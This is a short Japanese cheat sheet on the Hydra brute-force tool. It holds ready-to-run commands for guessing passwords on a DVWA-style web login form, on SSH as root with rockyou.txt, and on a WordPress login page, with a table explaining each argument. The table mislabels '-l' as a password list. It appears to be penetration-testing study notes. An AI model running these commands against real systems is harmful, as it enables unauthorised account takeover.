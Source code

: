 # Hydra

様々なプロトコルに対応したBruteForce Attackツール

* ワードリスト　`/usr/share/wordlists/metasploit`

## コマンド例

``` shell
    hydra 192.168.XXX.XXX -s 80 -l gordonb -P /usr/share/wordlists/metasploit/burnett_top1024.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=セッションID;security=low:F=Username and/or password incorrect."
```

``` shell
    # sshでrockyou.txtを使ったパスワード総当たり
    hydra -l root -P rockyou.txt XXX.YYY.ZZZ.III ssh
```

| command                                                  | summary                                     |
| -------------------------------------------------------- | ------------------------------------------- |
| Hydra                                                    | hydraコマンド                               |
| `192.168.XXX.XXX -s 80`                                   | webアプリのアドレスとポート                 |
| `-l gordonb`                                             | パスワードリスト                            |
| `-P /usr/share/wordlists/metasploit/burnett_top1024.txt` | パスワードリスト                            |
| `/vulnerabilities/brute/`                                | リクエスト先のリソース                      |
| `:username=^USER^&password=^PASS^&Login=Login`           | クエリストリングの^USER^,^PASS^が変数に相当 |
| `:H=Cookie: PHPSESSID=セッションID;security=low`         | リクエストのヘッダ(Cookie)                  |
| `:F=Username and/or password incorrect."`                | ログイン失敗時のメッセージ |

## wordpressへのブルートフォースサンプル

``` shell
    sudo hydra XXXXXX -s 80 -l admin -P <passwordlist> http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:incorrect"
```

